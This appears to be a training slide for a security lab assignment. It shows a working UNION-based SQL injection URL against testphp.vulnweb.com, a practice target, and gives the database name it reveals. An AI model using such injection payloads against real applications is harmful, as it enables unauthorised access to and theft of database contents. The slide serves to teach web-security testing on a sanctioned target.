

# Assignment#12
Visit http://testphp.vulnweb.com/artists.php?artist=1
Can you find out the database name
[hint: try union statement & select statement]

http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,database(),3
From the screenshot, you can read the database name acuart